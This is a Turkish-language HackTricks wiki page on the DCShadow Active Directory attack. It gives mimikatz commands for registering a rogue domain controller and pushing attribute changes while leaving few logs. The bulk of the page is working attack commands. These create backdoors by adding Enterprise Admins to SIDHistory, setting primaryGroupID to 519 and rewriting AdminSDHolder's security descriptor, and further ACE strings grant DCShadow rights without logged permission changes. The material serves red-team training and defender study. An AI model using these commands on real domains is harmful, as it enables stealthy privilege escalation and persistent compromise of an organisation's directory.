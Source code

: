 {% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}


# DCShadow

AD'de **yeni bir Domain Controller** kaydeder ve belirtilen nesnelerde **değişiklikler** ile ilgili herhangi bir **log** bırakmadan **atributları** (SIDHistory, SPNs...) **itmek** için kullanır. **DA** ayrıcalıklarına sahip olmanız ve **root domain** içinde olmanız gerekir.\
Yanlış veri kullanırsanız, oldukça kötü loglar görünecektir.

Saldırıyı gerçekleştirmek için 2 mimikatz örneğine ihtiyacınız var. Bunlardan biri, burada gerçekleştirmek istediğiniz değişiklikleri belirtmeniz gereken SYSTEM ayrıcalıklarıyla RPC sunucularını başlatacak, diğeri ise değerleri itmek için kullanılacaktır:

{% code title="mimikatz1 (RPC sunucuları)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - DA veya benzeri gerektirir" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

**`elevate::token`**'ın `mimikatz1` oturumunda çalışmayacağını unutmayın, çünkü bu iş parçacığının ayrıcalıklarını yükseltti, ancak **işlemin ayrıcalığını** yükseltmemiz gerekiyor.\
Ayrıca bir "LDAP" nesnesi seçebilirsiniz: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Değişiklikleri bir DA'dan veya bu minimum izinlere sahip bir kullanıcıdan gönderebilirsiniz:

* **alan nesnesinde**:
* _DS-Install-Replica_ (Alan içinde Replica Ekle/Kaldır)
* _DS-Replication-Manage-Topology_ (Replikasyon Topolojisini Yönet)
* _DS-Replication-Synchronize_ (Replikasyon Senkronizasyonu)
* **Yapılandırma konteynerindeki** **Siteler nesnesi** (ve çocukları):
* _CreateChild and DeleteChild_
* **DC olarak kaydedilen** **bilgisayar nesnesi**:
* _WriteProperty_ (Yazma Değil)
* **hedef nesne**:
* _WriteProperty_ (Yazma Değil)

Bu ayrıcalıkları ayrıcalıksız bir kullanıcıya vermek için [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) kullanabilirsiniz (bu bazı günlükler bırakacaktır). Bu, DA ayrıcalıklarına sahip olmaktan çok daha kısıtlayıcıdır.\
Örneğin: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  Bu, _**mcorp-student1**_ makinesinde oturum açtığında _**student1**_ kullanıcı adının _**root1user**_ nesnesi üzerinde DCShadow izinlerine sahip olduğu anlamına gelir.

## DCShadow Kullanarak Arka Kapılar Oluşturma

{% code title="SIDHistory'de Enterprise Admins'i bir kullanıcıya ayarlama" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="PrimaryGroupID'yi Değiştir (kullanıcıyı Alan Yöneticileri üyesi yap)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="AdminSDHolder'ın ntSecurityDescriptor'ını Değiştir (bir kullanıcıya Tam Kontrol Ver)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - DCShadow izinlerini DCShadow kullanarak verin (değiştirilmiş izin günlükleri yok)

Aşağıdaki ACE'leri kullanıcının SID'si ile birlikte eklememiz gerekiyor:

* Alan nesnesinde:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* Saldırgan bilgisayar nesnesinde: `(A;;WP;;;UserSID)`
* Hedef kullanıcı nesnesinde: `(A;;WP;;;UserSID)`
* Yapılandırma konteynerindeki Siteler nesnesinde: `(A;CI;CCDC;;;UserSID)`

Bir nesnenin mevcut ACE'sini almak için: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl`

Bu durumda **birden fazla değişiklik** yapmanız gerektiğini unutmayın, sadece bir tane değil. Bu nedenle, **mimikatz1 oturumu** (RPC sunucusu) içinde yapmak istediğiniz her değişiklik için **`/stack`** parametresini kullanın. Bu şekilde, tüm sıkışmış değişiklikleri sahte sunucuda gerçekleştirmek için yalnızca bir kez **`/push`** yapmanız gerekecek.



[**DCShadow hakkında daha fazla bilgi için ired.team'i ziyaret edin.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)


{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
